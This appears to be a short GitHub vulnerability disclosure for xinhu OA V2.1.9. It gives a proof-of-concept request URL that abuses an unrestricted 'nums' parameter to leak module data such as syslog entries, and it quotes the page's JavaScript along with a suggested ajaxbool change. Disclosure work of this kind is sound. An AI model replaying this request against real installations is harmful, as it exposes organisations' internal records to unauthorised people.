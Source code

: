 # xinhu-oa
xinhu oa Information leakage
xinhu V2.1.9
After the user logged in, open the following  page
poc：
/index.php?a=gettotal&m=index&d=home&atype=&loadci=&optdt=&nums=gong,kqdk,apply,officic,syslog,about&ajaxbool=true

Display the information in the picture
![image] (https://github.com/xuechengen/xinhu-oa/blob/main/%E6%98%BE%E7%A4%BA.JPG)

Check the source code and find that nums is not restricted，/webmain/home/index/indexAction.php


<script>
$(document).ready(function(){
	var optdt = '',loadci=0, taskarr={}, miao=200,reimtitle='REIM';
	var c= {
		itot:function(rlx){
			clearTimeout(this.tims);
			var nums = '',i;
			for(i=0;i<homenums.length;i++){
				nums+=','+homenums[i]+'';
			}
			if(!rlx)rlx='';
			var url  = js.getajaxurl('gettotal','index','home', {atype:rlx,loadci:loadci,optdt:optdt,nums:nums.substr(1)});
			$('#refresh_text').html(this.bd2('5Yi35paw57uf6K6h5LitLi4u'));
			js.ajaxbool =false;
			js.ajax(url,{},function(da){
				c.itots(da);
			},'get,json');
			homeobject.refresh=function(){c.refresh();};
		},
		init:function(){
			this.itot();
			var i,nust;
			for(i=0;i<homenums.length;i++){
				nust = homenums[i];
				if(homeobject[''+nust+'_init'])homeobject[''+nust+'_init']();
			}
  
 Change ajaxbool = false to ajaxbool = true
